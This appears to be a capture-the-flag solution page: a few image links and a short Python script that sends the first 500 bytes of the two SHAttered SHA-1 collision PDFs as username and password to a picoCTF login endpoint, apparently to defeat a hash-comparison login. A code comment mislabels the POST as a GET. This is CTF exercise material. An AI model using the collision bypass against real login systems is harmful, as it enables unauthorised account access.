




```
import requests
import urllib.request

# Read first 500 bytes of each PDF from shattered.io
soul = urllib.request.urlopen("https://shattered.io/static/shattered-1.pdf").read()[:500]
bah = urllib.request.urlopen("https://shattered.io/static/shattered-2.pdf").read()[:500]

# Send them as query parameters in a GET request
r = requests.post(
    'http://verbal-sleep.picoctf.net:57184/impossibleLogin.php',
    data={'username': soul, 'pwd': bah}
)

print(r.text)
```



